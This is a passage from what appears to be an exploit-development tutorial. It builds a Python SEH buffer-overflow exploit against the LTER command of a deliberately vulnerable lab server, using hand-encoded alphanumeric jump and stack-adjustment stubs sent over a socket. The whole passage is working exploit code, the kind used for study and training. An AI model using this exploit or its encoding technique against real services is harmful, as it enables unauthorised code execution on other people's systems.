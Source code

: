 
So our `espAdj3` code is going to be: `\x54\x58\x2c\x4b\x50\x5c`

Let's add and test it. Our exploit code now looks like this:
```python
#!/usr/bin/python

import socket
import os
import sys

host = "192.168.1.201"
port = 9999

nSeh = '\x74\x06\x75\x04'

Seh = '\x2b\x17\x50\x62'

espAdj = '\x54\x58\x66\x05\x4b\x13\x50\x5C'

jump = ""
jump += "\x25\x4A\x4D\x4E\x55" ## and  eax, 0x554e4d4a
jump += "\x25\x35\x32\x31\x2A" ## and  eax, 0x2a313235
jump += "\x05\x76\x40\x50\x50" ## add  eax, 0x50504076
jump += "\x05\x75\x40\x40\x40" ## add  eax, 0x40404075
jump += "\x50" 

espAdj2 = '\x54\x58\x2c\x2a\x50\x5c'

longJump = "\x54\x5b"
longJump += "\x25\x4A\x4D\x4E\x55" ## and  eax, 0x554e4d4a
longJump += "\x25\x35\x32\x31\x2A" ## and  eax, 0x2a313235
longJump += "\x05\x11\x11\x77\x62" ## add  eax, 0x62771111
longJump += "\x05\x11\x11\x66\x62" ## add  eax, 0x62661111
longJump += "\x05\x11\x11\x55\x42" ## add  eax, 0x42551111
longJump += "\x2D\x33\x33\x33\x33" ## sub  eax, 0x33333333
longJump += "\x50"                 ## push eax
longJump += "\x25\x4A\x4D\x4E\x55" ## and  eax, 0x554e4d4a
longJump += "\x25\x35\x32\x31\x2A" ## and  eax, 0x2a313235
longJump += "\x05\x41\x76\x65\x07" ## add  eax, 0x07657641
longJump += "\x05\x40\x75\x54\x06" ## add  eax, 0x06547540
longJump += "\x50"

espAdj3 = '\x54\x58\x2c\x4b\x50\x5c'

buffer = espAdj3
buffer += 'A' * (3427 - len(espAdj3))
buffer += espAdj2
buffer += longJump
buffer += 'A' * (3514 - 3427 - len(espAdj2) - len(longJump))
buffer += nSeh
buffer += Seh
buffer += espAdj
buffer += jump
buffer += 'D' * (4000 - len(buffer))

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((host,port))
print s.recv(1024)
s.send("LTER /.../" + buffer)
print s.recv(1024)
s.close()
```
